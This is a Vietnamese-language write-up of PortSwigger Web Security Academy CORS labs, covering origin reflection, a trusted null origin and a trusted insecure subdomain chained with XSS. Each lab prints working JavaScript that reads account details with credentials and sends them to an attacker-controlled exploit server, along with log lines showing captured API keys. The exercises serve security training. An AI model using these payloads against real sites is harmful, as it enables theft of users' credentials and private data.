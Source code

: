 # 1. CORS vulnerability with basic origin reflection
Ta thấy khi gửi request `GET /accountDetails`, trong response sẽ chứa thông tin đầy đủ về user trong phiên hiện tại. Như vậy ta vào exploit server và cấu hình đoạn code sau:

```
<script>
let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a9f008704a74bedc06f45ff00f600cd.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
fetch('https://exploit-0ab7003c04f14b63c07644d50138000b.exploit-server.net/exploit?apiKey='+this.responseText);
}
</script>
```
Đoạn script trên sẽ gửi request đến `/accountDetails`, lấy ra response rồi đặt làm tham số trong request gửi tới exploit server mà ta kiểm soát.

Sau khi click "Deliver to victim", vào Access log ta thấy có một request với tham số apiKey là một object:

![image](https://user-images.githubusercontent.com/103978452/210699785-c2fc9ed4-50fa-4d0c-82cd-3424d39d6f3b.png)

Thực hiện URL decode, rồi lấy giá trị của trường "apikey" để submit, kết quả thành công.

# 2. CORS vulnerability with trusted null origin
Nhận thấy trong request `/accountDetails`, khi đặt `Origin: null` thì response trả về chứa header `Access-Control-Allow-Origin: null`. Như vậy ta có thể exploit bằng cách dùng tag iframe để tự động thiết lập `Origin: null`.

Vào exploi server và cấu hình đoạn code sau:
```
<iframe src="data:text/html,<script>let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a47008204d3fe7bc0c6c26e00f2002c.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
document.location='https://exploit-0a400044046dfe6ec0d3c132019600e6.exploit-server.net/?data='+this.responseText;
}
</script>">
```

Do thẻ iframe có thuộc tính `src="data:text/html,....`, Origin sẽ tự động được thiết lập là null và từ đó có thể bypass CORS. Sau khi click "Deliver to victim", vào trong Access log thì ta thấy có request:
```
10.0.4.254      2023-01-06 08:51:25 +0000 "GET /?data={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22n2daOK1lnvFCmG9DwadLa7iTt1vZieUi%22,%20%20%22sessions%22:%20[%20%20%20%20%22OZnSVCGK2EuB1QXu7RplVCP9Osicu5Gg%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

Tiến hành URL decode, ta thu được `apikey=n2daOK1lnvFCmG9DwadLa7iTt1vZieUi`. Submit thông tin có được, kết quả thành công.

# 3. CORS vulnerability with trusted insecure protocols
Nhận thấy website có chức năng check stock. Sau khi click nút "Check stock" với một sản phẩm bất kỳ, ta sẽ được chuyển đến URL `http://stock.0ae0003a03f1c8bdc0062267005100e2.web-security-academy.net/?productId=2&storeId=1`. Thử thay đổi `productId=<script>alert(1)</script>` thì thấy câu lệnh alert được thực thi. Như vậy website có lỗ hổng XSS.

Vào BurpRepeater, thay đổi `Origin: http://stock.0ae0003a03f1c8bdc0062267005100e2.web-security-academy.net` thì trong response trả về có header `Access-Control-Allow-Origin`. Như vậy ta có thể kết hợp XSS để khai thác lỗ hổng CORS, gửi request tới `/accountDetails` và lấy thông tin về.

Vào exploit server và cấu hình đoạn HTML sau:
```
<script>
document.location="http://stock.0ae0003a03f1c8bdc0062267005100e2.web-security-academy.net/?productId=<script>let xhr=new XMLHttpRequest();xhr.onreadystatechange=printResponse;xhr.open('GET','https://0ae0003a03f1c8bdc0062267005100e2.web-security-academy.net/accountDetails');xhr.withCredentials=true;xhr.send();function printResponse(){document.location='https://exploit-0a3d00cd035dc84bc05021db016c00db.exploit-server.net/?key='%2Bthis.responseText;}%3C/script>&storeId=1"
</script>
```

Đoạn script đầu tiên sẽ chuyển hướng người dùng tới `stock.0ae0003a03f1c8bdc0062267005100e2.web-security-academy.net` với payload XSS. Đoạn XSS này sau đó tiếp tục gửi request `/accountDetails`, lấy thông tin về và chuyển hướng tới exploit server, trong URL sẽ chứa những data thu thập được.

Sau khi click "Deliver to victim", vào Access log kiểm tra ta thấy có requests chứa dữ liệu Json được gửi đến
![image](https://user-images.githubusercontent.com/103978452/211489774-a4881ba2-d188-4fa7-9c9d-46949cd6cded.png)

Sau khi URL decode, ta thu được `apiKey=IZaEsQwzA4YTgbgUoaW56AWiLa84Zo9K`. Sử dụng dữ liệu thu được để submit, kết quả thành công.

# 4. CORS vulnerability with internal network pivot attackCORS vulnerability with internal network pivot attack
